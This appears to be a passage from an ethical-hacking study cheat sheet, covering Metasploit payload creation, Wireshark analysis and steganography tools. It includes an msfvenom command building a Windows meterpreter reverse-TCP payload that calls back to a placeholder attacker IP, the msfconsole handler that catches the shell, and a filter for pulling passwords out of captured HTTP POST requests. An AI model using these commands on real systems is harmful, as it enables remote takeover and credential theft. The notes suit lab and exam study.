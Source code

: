 **To create a Payload**<br>
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 

**To take a reverse TCP connection from windows**<br>
msfdb init && msfconsole <br>
use exploit/multi/handler<br>
set payload windows/meterpreter/reverse_tcp<br>
set LHOST= attacker-IP  <br>
set LPORT= attacker-Port <br>
run<br>

## 4. SNIFFING

### Filtering packets 
**Password Sniffing using Wireshark**<br>
In pcap file apply filter: http.request.method==POST or http.request.method==get(you will get all the post or get request) <br>
Follow HTTP stream. <br>
Type "pwd" in the find section.

**To the Find DOS & DDOS**<br>
Go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer<br>
Statistics > Conversations > IPv4 > Packets<br>
To find DOS (SYN and ACK) : tcp.flags.syn == 1  , tcp.flags.syn == 1 and tcp.flags.ack == 0

**To find sniffing**<br>
Ctrl+F duplicate

**IoT**<br>
Filter mqtt

### Follow up Streams
select_packet > follow > TCP Stream

**To find message hidden with CovertTCP**<br>
Apply filter tcp. Under IPv4 -> Identification follow the message.

**Finding severity**<be>
Open pcapng file and go to Analyze -> Expert Information

## 5. Steganography

**SNOW** - for hiding and extracting hidden data from a text file<br>
**Openstego** - for hiding and extracting hidden data from an image file<br>
**CovertTCP** - for hiding data in TCP/IP packet headers

### SNOW

run cmd from SNOW folder<br>
SNOW.EXE -C -m “<hidden text>” -p “<password>” <txt file> <output txt file><br>
-C - compile<br>
-m - text we want to hide<br>
-p - password<br>
Extracting data:<br>
SNOW.EXE -C -p <password> <provided txt file>

